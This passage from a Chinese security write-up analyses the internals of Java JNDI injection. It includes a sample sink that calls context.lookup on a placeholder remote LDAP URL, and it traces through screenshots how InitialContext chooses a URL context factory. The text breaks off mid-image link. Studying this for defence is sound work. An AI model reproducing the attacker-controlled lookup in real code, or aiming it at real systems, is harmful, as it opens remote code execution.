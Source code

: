 **即使服务端提前设置了工厂与PROVIDER\_URL也不要紧，如果在lookup时参数能够被攻击者控制，同样会根据攻击者提供的URL进行动态转换。**

PART.4

JNDI原理探索

为什么JNDI可以被利用，我们先拿一个典型的恶意利用sink点作为样例进行分析

```
import javax.naming.Context;import javax.naming.InitialContext;
public class main {    public static void main(String[] args) throws Exception{            Context context = new InitialContext();            context.lookup("ldap://host:1389/SimpleCommand");    }}
```

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAs1drggK2Sp53nX1j17MxEiaGl9JCmdCtbWZus8s8AM8Ob5Ek9fDibo3Fg/640?wx_fmt=png)

#### **在不传入env来指定ContextFactory时，initialContext()是怎么决定用什么处理查询内容的？**

这里细分到底用哪个context去lookup时调用了函数getURLOrDefaultInitCtx()方法，并且把传入的查询字符串传入作为参数。

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAskDOibPDpH4pupUibUW5XJXicEdWnAUZph0R3ErLmA4HGntf3hOibNsjgCQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAsUtqZdNQncs85O3Da5Q2z3oc4n1qicCWxIDPuI02lnqsia8hQwC2tUgtA/640?wx_fmt=png)

上面那个getDefaultInitCtx默认是null，不用管。这里我们传入的URL被解析出scheme为ldap。接着便会根据这个scheme尝试去从NamingManager中拿对应的URLContext，这里的myProps就是我们构造InitialContext时传入的env HashTable经过处理后存储的内容，此处因为没传入env，所以为null

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAs0y69oOOBQkAuYXUYYOHQmibicERWpr1MibRdpNIINKHzUPQyr2nXNYWpQ/640?wx_fmt=png)

继续跟进 Context ctx = NamingManager.getURLContext(scheme, myProps);

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAsPxwWFPBNMNBxicVpOqmPDzqSrARogJll1O8ktUTiakWsWU03hLD6zVvw/640?wx_fmt=png)

这一步便会决定到底用啥解析传入的lookup的url，这里根据预先定义的常量和传入的scheme，调用对应的Factory

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAsyCxGFFV5WparQicDGEAvIjtT2awu6SWeekDjadLZdZM6MAV8icib7zx6w/640?wx_fmt=png)

确定加载的类名

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAscicO9RDSpYg7t8ichElaI0nfjuM1IELHBz4X9dr0bc8POCPV5fcyO5dQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAsG2MMAwpDDjA9TMV6LbDZBq8c0mmyMEGXpTOn2UicyMlbpIiblAXrwPUQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAsngHqEKibibfFtWR3luCkxr1nkaWINbqSgnfFopUib18VrIKhicqYjicibJ0w/640?wx_fmt=png)

经过逐级返回回到最初点

![](https://mmbiz.qpic.cn/mmbiz_png/f7AtEgJhMZeGqn6Au1o1Fc4QmwFo8FAs4hrGicxtTk5mKT9NTRLWpEWWVRb8tMyOLk5AX...